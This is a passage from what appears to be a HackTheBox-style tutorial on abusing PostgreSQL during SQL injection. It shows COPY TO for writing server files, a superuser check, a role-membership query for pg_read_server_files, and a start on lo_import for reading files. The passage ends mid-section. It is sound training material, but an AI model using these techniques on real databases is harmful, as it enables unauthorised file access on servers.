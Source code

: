
## Writing files

```sql
bluebird=# CREATE TABLE tmp (t TEXT);
CREATE TABLE
bluebird=# INSERT INTO tmp VALUES ('To hack, or not to hack, that is the question');
INSERT 0 1
bluebird=# COPY tmp TO '/tmp/proof.txt';
COPY 1
bluebird=# DROP TABLE tmp;
DROP TABLE
bluebird=# exit
```
```bash
0xevilpayload@htb[/htb]$ cat /tmp/proof.txt 
To hack, or not to hack, that is the question
```


## Permissions


```sql

bluebird=# SELECT current_setting('is_superuser');
 current_setting 
-----------------
 on
(1 row)
```

Checking if a user has a specific role is not so simple. Locally we could run \du, but through an injection we would need something like:


```sql
bluebird=# SELECT r.rolname, ARRAY(SELECT b.rolname FROM pg_catalog.pg_auth_members m JOIN pg_catalog.pg_roles b ON (m.roleid = b.oid) WHERE m.member = r.oid) as memberof FROM pg_catalog.pg_roles r WHERE r.rolname='fileuser';
 rolname  |        memberof        
----------+------------------------
 fileuser | {pg_read_server_files}
(1 row)
```


# Large Objects

The second method for dealing with files is with large objects. This is a bit trickier than the COPY function, but at the same time it is a very powerful feature.


Reading Files
To read a file, we should first use lo_import to load the file into a new large object. This command should return the object ID of the large object which we will need to reference later on.

